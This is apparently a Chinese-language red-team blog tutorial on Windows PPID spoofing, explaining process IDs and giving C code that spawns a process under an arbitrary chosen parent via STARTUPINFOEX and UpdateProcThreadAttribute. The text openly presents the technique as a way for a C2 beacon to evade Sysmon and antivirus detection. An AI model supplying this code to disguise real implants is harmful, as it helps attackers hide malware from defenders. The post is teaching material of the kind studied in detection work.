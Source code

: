 ```yaml
---
title: 红蓝对抗-PPID欺骗
date: 2022-10-25
categories: [红蓝对抗]
tags: [红蓝对抗, Windows]
---
```


## 0X00 PPID欺骗介绍

在我们使用`CreateProcess `API时，默认情况下，最后的进程将作为调用方的子进程生成。然而，**PPID欺骗**技术允许调用者更改派生进程的父进程。所以如果我们的`beacon`运行在`powershell`中，我们可以就将进程派生到一个完全不同的进程的子进程中，比如`explorer.exe` 。在默认情况下，大多数需要用户交互启动的程序都是由`explorer.exe`生成的。

这将导致`Sysmon`等应用程序记录新父级下的进程创建。当一个`beacon`在一个不合法的进程中运行(例如横向移动或其他一些漏洞传递)，并且进程创建事件会被杀软检测或被完全阻止，那么这个方法可以用来对抗这种检测。

## 0x01 进程、PID和PPID

**进程：**在 `Windows` 中，应用程序由一个或多个进程组成。简单来说，当前正在运行的程序的一部分称为进程。不同的应用程序可能会使用相同的进程(如`cmd.exe`)，并且为避免歧义，会分配一个整数来区分一个进程和另一个进程。该整数称为`PID`。

**PID：**代表进程标识符 (`PID`)，它是正在运行的进程的数字表示。`Windows` 中通过 `GetCurrentProcessID()` 函数返回指定进程的 `PID`。

**父进程：**父进程是可以派生多个子进程的进程。例如，命令`explorer.exe /e,/root,"C：\WINDOWS\System32\cmd.exe"`将派生`cmd.exe`作为父进程`explorer.exe`的子进程。在代码中，父进程可以使用`fork()`系统调用来派生子进程。

**PPID：**代表父进程标识符(`PPID`)，它是提供给父进程的数字表示形式。任何包含子进程的进程都存在父子关系。

## 0x02 技术实现

这个技术是在[STARTUPINFOEX](https://learn.microsoft.com/zh-cn/windows/win32/api/winbase/ns-winbase-startupinfoexw) 结构中实现的，这个结构具有`LPPROC_THEAD_ATTRIBUTE_LIST`属性。这允许我们向`CreateProcess`调用传递附加属性。对于PPID欺骗，我们关注的`PROC_THREAD_ATTRIBUTE_PARENT_PROCESS`。`lpValue`参数是指向要使用的进程句柄的指针，而不是将调用进程用作正在创建的进程的父进程。要使用的进程必须具有`process_CREATE_process`访问权限。 

下面用一段简短的代码来实现获取父进程PID和初始化

```c
#include <iostream>
#include <Windows.h>
#include <winternl.h>

int main(int argc, const char* argv[])
{
	//获取父进程PID
	DWORD parentPid = atoi(argv[1]);

	//初始化
	STARTUPINFOEX sie = { sizeof(sie) };
}
```

我们需要先知道所需的大小，然后分配一个内存区域来保存属性列表。这个列表可以有多个属性，但由于我们只对`PROC_THREAD_ATTRIBUTE_PARENT_PROCESS`感兴趣，因此大小为1。所以我们调用`InitializeProcThreadAttributeList`并提供`NULL目标`，但`lpSize`变量将填充我们需要的大小。因为这个API返回`bool`，所以这个调用也将始终返回`FALSE`。

```c
SIZE_T lpSize;
InitializeProcThreadAttributeList(NULL, 1, 0, &lpSize);
```

接下来我们使用`malloc`在`STARTUPINFOEX`的`lpAttributeList`属性上分配内存区域。我们再次调用`InitializeProcThreadAttributeList`，它应该返回`TRUE`。

```c
//为STARTUPINFOEX上的属性列表分配内存
sie.lpAttributeList = (PPROC_THREAD_ATTRIBUTE_LIST)malloc(lpSize);

//再次调用InitializeProcThreadAttributeList，此时应返回TRUE
if (!InitializeProcThreadAttributeList(sie.lpAttributeList, 1, 0, &lpSize))
{
	printf("InitializeProcThreadAttributeList failed. Error code: %d.\n", GetLastError());
	return 0;
}
```

获取父进程的句柄并将其传递到`UpdateProcThreadAttribute`的调用中。 

```c
//获取进程的句柄以充当父进程
HANDLE hParentProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, parentPid);

//调用UpdateProcThreadAttribute
if (!UpdateProcThreadAttribute(sie.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &hParentProcess, sizeof(HANDLE), NULL, NULL))
{
	printf("UpdateProcThreadAttribute failed. Error code: %d.\n", GetLastError());
	return 0;
}
```

剩下要做的就是调用`CreateProcess`，确保传递`EXTENDED_STARTUPINFO_PRESENT`

```c
//调用CreateProcess并传递EXTENDED_STARTUPINFO_PRESENT
PROCESS_INFORMATION pi;

if (!CreateProcess(
	L"C:\\Windows\\System32\\notepad.exe",
	NULL,
	0,
	0,
	FALSE,
	EXTENDED_STARTUPINFO_PRESENT,
	NULL,
	L"C:\\Windows\\System32",
	&sie.StartupInfo,
	&pi))
{
	printf("[-] CreateProcess failed. Error code: %d.\n", GetLastError());
	return 0;
}

printf("[+] PID created: %d", pi.dwProcessId);
return 1;
```

## 0x03  实现效果

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2022-10-25/ppid_success1.jpg)

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2022-10-25/ppid_success2.jpg)



## 0x04 小结

本文介绍了PPID欺骗实现原理以及怎么用Windows API 去实现

### 注：本文仅用于安全研究和学习之用